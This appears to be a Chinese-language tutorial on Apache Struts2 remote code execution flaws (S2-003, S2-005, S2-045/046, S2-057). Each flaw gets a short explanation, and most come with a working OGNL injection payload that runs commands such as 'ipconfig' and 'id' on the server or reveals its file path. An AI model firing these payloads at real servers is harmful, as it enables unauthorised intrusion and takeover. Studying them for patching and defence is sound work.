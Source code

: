 XWork ParameterInterceptors旁路允许执行 OGNL 语句， OGNL 除其他功能外，还提供了广泛的表达式评估功能。该漏洞允许恶意用户绕过ParametersInterceptor 内置的【＃】使用保护，从而能够操纵服务器端上下文对象 。

```
http://127.0.0.1:8080/struts2-showcase-2.0.1/showcase.action?('\u0023context[ \'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629172328643.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

### 02-s2-005漏洞

S2-005 是由于官方在修补 S2-003不全面导致绕过补丁造成的。我们都知道访问 Ognl 的上下文对象必须要使用#符号， S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023 或者8进制\43 绕过。S2-005 则是绕过官方的安全配置（禁止静态方法调用和类方法执行）再次造成漏洞。

```
('%5C43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('%5C43context[%5C'xwork.MethodAccessor.denyMethodExecution%5C']%5C75false')(b))&('%5C43c')(('%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET')(c))&(g)(('%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('%5C43xman.getWriter().print(%22S2-005dir--***%22)')(d))&(i95)(('%5C43xman.getWriter().println(%5C43req.getRealPath(%22\%22))')(d))&(i99)(('%5C43xman.getWriter().close()')(d))
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629172419469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

### 03-S2-045/S2-046 漏洞

Struts2使用基于 Jakarta 的文件上传 Multipart解析器，如果该 Content-Type 值无效，则会引发异常，然后将其用于向用户显示错误消息，并对异常信息进行 OGNL 表达式处理，可以构造恶意Content-Type 值执行 RCE 攻击。 S2 -046 与 S2-045 漏洞的引发原因一致，只是他们的利用位置不一样。
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021062917234754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

### 04-S2-057 漏洞

2018年 8 月 22 日， Apache Strust2 发布最新安全公告， Apache Struts2 存在远程代码执行的高危漏洞S2-057 。该漏洞是由于在 Struts2 开发框架中使用namespace 功能定义 XML 配置时， namespace 值未被设置且在上层动作配置（ Action Configuration ）中未设置或用通配符 namespace ，可能导致远程代码执行。同理， URL 标签未设置 value 和 action 值且上层动作未设置或用通配符 namespace 时也可能导致远程代码执行。

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.get
ExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apac
he.commons.io.IOUtils@toString(#a.getInputStream()))}
```

ApacheStruts 版本 2.3 至2.3.34 和 2.5 至 2.5.16 当alwaysSelectFullNamespace 为true 时 可能会受到远程执行代码（由用户或诸如 ConventionPlugin 之类的插件使用 ），同时使用没有设置值和操作的 URL 标记时也可能导致远程代码执行。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629172434181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
